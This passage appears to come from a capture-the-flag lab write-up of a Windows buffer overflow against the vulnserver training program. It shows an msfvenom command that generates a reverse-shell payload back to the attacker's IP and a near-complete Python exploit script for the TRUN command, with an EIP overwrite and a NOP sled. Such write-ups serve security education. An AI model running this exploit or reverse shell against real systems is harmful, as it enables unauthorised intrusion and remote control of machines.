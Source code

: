 essfunc.dll is a DLL file used by vulnserver.

![pointer](/assets/images/THM/2020-08-13-intro-to-windows-bof/25.png)

We got a total of 9 pointers available. Select either one, it doesn't matter. For this write-up, I'm going to use **0x625011af**.

Next, generate a reverse shell payload using msfvenom.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<Tunnel IP> LPORT=3334 -b "\x00" -f python
```

For your information, the -b flag is where you put the bad character.

![msfvenom](/assets/images/THM/2020-08-13-intro-to-windows-bof/26.png)

Copy the payload and paste it into our final script.

```python
#!/usr/bin/python
import socket
server = "10.10.72.207"
port = 9998
function = "TRUN ."
overflow = 'A' * 2006
EIP = "\xaf\x11\x50\x62"
nops = "\x90" * 16
<PASTE THE PAYLOAD>
exploit = function + overflow + EIP + nops + buf + "\r\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, port))
s.send((exploit))
s.close()
```
